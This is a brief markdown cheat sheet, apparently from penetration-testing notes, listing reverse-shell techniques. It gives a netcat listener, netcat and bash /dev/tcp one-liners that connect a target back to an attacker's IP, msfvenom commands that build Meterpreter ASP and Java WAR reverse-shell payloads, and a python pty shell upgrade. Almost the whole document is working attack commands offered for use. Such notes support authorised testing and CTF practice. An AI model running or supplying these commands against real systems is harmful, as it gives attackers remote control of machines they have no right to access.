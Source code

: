 # Reverse shells

Attacker runs:
```
nc -nvlp <port>
```

Target runs:
```
nc -nv <ip> <port> -e <cmd>
```
or:
```
bash -i >&/dev/tcp/x.x.x.x/443 0>&1
```

## Metasploit venom

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f asp > msfshell.asp
```

## Interactive shell upgrade

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## WAR

```
msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=443 -f war > hacketyhack.war
```
